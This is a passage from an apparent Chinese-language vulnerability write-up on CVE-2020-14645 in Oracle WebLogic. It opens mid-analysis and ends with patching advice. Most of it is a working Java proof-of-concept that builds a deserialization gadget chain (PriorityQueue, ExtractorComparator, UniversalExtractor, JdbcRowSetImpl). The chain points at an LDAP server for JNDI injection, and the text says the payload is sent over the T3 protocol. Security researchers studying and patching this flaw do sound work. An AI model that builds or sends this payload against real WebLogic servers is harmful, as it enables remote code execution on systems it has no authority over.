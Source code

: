 如果this.m_cacheTarget可控，我们也可以达到目的。但是依旧行不通，m_cacheTarget无法控制。因为
```java
private transient TargetReflectionDescriptor m_cacheTarget;
```


#### payload

生成的payload.ser通过T3协议发送

```java
public class CVE_2020_14645 {

    public static void main(String[] args) throws Exception {

        UniversalExtractor universalExtractor = new UniversalExtractor("getDatabaseMetaData()");
        PriorityQueue queue = new PriorityQueue(2, new ExtractorComparator(universalExtractor));

        JdbcRowSetImpl jdbcRowSet = new JdbcRowSetImpl();
        jdbcRowSet.setDataSourceName("ldap://127.0.0.1:1389/oiaqfx");

        queue.add(jdbcRowSet);
        queue.add(jdbcRowSet);

        serialize(queue);
        deserialize();
    }

    public static void serialize(Object obj) {
        try {
            ObjectOutputStream os = new ObjectOutputStream(new FileOutputStream("test.ser"));
            os.writeObject(obj);
            os.close();
        } catch (Exception e) {
            e.printStackTrace();
        }
    }

    public static void deserialize() {
        try {
            ObjectInputStream is = new ObjectInputStream(new FileInputStream("test.ser"));
            is.readObject();
        } catch (Exception e) {
            e.printStackTrace();
        }
    }
}
```

### 漏洞修复

1. 禁用T3、IIOP协议

2. 通过Oracle官网获取并安装最新补丁
